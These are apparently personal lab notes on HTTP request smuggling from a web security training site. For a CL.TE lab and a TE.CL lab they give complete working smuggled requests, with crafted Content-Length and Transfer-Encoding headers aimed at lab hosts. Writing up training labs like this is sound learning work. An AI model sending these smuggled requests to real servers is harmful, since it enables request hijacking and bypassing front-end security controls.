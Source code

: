 ----- lab stuff -----
##### CL.TE vulnerabilities
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

 Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store. 
```
POST / HTTP/1.1
Host: 0aa0009704d2249abe839144007700f2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```



----- lab stuf ------
##### TE.CL vulnerabilities
First need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

You need to include the trailing sequence ```\r\n\r\n``` following the final 0. 
```
POST / HTTP/1.1
Host: 0a8a002104f7b5c082ffec0300a400f9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
5e because its the lenght of 
```
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```
